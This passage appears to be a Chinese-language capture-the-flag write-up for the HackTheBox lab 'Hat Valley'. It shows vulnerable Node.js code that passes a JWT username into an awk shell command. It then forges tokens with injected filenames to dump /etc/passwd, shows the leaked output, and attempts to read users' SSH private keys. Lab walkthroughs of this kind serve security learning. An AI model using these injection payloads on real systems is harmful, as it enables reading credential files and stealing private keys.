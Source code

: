     
    
    ......user = decodedToken.username......exec("awk '/" + user + "/' /var/www/private/leave_requests.csv", {encoding: 'binary', maxBuffer: 51200000}......

  

比如我们让`user=/' /etc/passwd '`，那么得到的命令如下

  

  * 

    
    
    awk '//' /etc/passwd '/' /var/www/private/leave_requests.csv

  

可以在自己本地测试

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193105.png)

用JWT Debugger[3]，先将获取到的token复制到Encoded文本框里，然后修改Decoded文本框中username值为`/'
/etc/passwd '`，然后左侧Encoded文本框就会实时出现伪造后的token值

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193106.png)

  

  *   *   *   *   *   *   *   * 

    
    
    ┌──(root💀kali)-[~/Desktop]└─# curl http://hat-valley.htb/api/all-leave --header "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ldGMvcGFzc3dkICciLCJpYXQiOjE2Nzc4MjAwNzN9.TyuC5rH79AtjGs4biOvMhtG0CHRm1HfLfrWqRhylrLk" | grep -i /bin/bash  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current                                 Dload  Upload   Total   Spent    Left  Speed100  3059  100  3059    0     0   3216      0 --:--:-- --:--:-- --:--:--  3213root:x:0:0:root:/root:/bin/bashbean:x:1001:1001:,,,:/home/bean:/bin/bashchristine:x:1002:1002:,,,:/home/christine:/bin/bash

  

发现2个用户，bean和christine

尝试修改payload如下，执行类似上述的命令

  

  *   *   *   * 

    
    
    {  "username": "/' /home/bean/.ssh/id_rsa '",  "iat": 1677820073}

  

报错Failed to retrieve leave requests

修改payload如下

  

  *   *   *   * 

    
    
    {  "username": "/' /home/christine/.ssh/id_rsa '",  "iat": 1677820073}
